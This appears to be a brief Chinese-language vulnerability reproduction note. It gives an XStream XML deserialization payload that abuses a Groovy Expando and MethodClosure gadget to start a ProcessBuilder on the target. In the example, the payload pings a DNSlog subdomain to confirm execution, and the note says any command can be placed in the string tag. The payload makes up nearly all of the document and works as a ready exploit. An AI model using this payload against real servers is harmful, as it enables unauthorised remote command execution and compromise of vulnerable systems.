


### 参考
https://www.cnblogs.com/sevck/p/5225629.html


###  复现方法
payload:

```
<map>
  <entry>
    <groovy.util.Expando>
      <expandoProperties>
        <entry>
          <string>hashCode</string>
          <org.codehaus.groovy.runtime.MethodClosure>
            <delegate class="groovy.util.Expando" reference="../../../.."/>
            <owner class="java.lang.ProcessBuilder">
              <command>
                <string>ping</string>
<string>a65fBdj1.io.xxx.xxxx</string>
              </command>
              <redirectErrorStream>false</redirectErrorStream>
            </owner>
            <resolveStrategy>0</resolveStrategy>
            <directive>0</directive>
            <parameterTypes/>
            <maximumNumberOfParameters>0</maximumNumberOfParameters>
            <method>start</method>
          </org.codehaus.groovy.runtime.MethodClosure>
        </entry>
      </expandoProperties>
    </groovy.util.Expando>
   <int>1</int>
 </entry>
</map>
```

`<string>`标签中填写需要执行的命令
利用dnslog的方式实现命令回显




dnslog 平台收到执行的命令


